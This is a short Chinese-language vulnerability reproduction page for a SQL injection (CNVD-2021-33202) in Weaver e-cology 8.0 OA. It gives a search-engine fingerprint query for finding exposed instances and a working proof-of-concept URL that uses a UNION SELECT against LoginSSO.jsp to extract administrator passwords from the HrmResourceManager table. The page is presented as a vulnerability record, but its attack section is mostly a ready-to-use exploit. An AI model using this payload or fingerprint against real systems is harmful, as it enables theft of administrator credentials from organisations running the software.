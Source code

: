 # 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。
泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>泛微e-cology 8.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-20220313184449317.png)

验证POC

```php
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636962109612-27c439fe-00a4-4d90-89ca-737b2ce98400.png)